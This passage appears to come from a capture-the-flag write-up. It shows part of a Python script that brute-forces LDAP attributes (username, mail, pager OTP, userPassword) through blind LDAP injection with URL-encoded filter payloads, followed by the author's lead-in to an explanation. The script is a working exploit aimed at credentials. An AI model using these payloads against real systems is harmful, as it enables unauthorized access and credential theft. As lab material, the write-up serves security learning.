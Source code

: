      23     return ''
     24 
     25 
     26 def brute_username():
     27 
     28     username = ''
     29     while True:
     30         next_char = brute_next_char(f'{username}{{c}}%2a', string.ascii_lowercase)
     31         if next_char == '':
     32             break
     33         username += next_char
     34     print()
     35     return username
     36 
     37 
     38 def brute_attribute(attrib, character_set):
     39 
     40     otp = ''
     41     while True:
     42         next_dig = brute_next_char(f'ldapuser%29%28{attrib}%3d{otp}{{c}}%2a', character_set)
     43         if next_dig == '':
     44             break
     45         otp += next_dig
     46     print()
     47     return otp
     48 
     49 options = 'all username mail pager userPassword'.split(' ')
     50 user_opt = sys.argv[1] if len(sys.argv) > 1 else 'all'
     51 
     52 if user_opt not in options:
     53     print("Usage: {} [attribute]\nAvailable Options:\n  {}\n".format(sys.argv[0], '\n  '.join(options)))
     54     sys.exit()
     55 
     56 if user_opt in ['all', 'username']:
     57     print("Bruting Username")
     58     brute_username()
     59 if user_opt in ['all', 'mail']:
     60     print("Bruting mail")
     61     brute_attribute('mail', string.ascii_lowercase + string.digits + '@.')
     62 if user_opt in ['all', 'pager']:
     63     print("Bruting pager")
     64     brute_attribute('pager', string.digits)
     65 if user_opt in ['all', 'userPassword']:
     66     print("Bruting userPassword")
     67     brute_attribute('userPassword', string.printable)
    

I probably could have just as quickly used bash loops to figure out which item
was which, but I wanted to get all the values anyway. Here’s how the script
works.
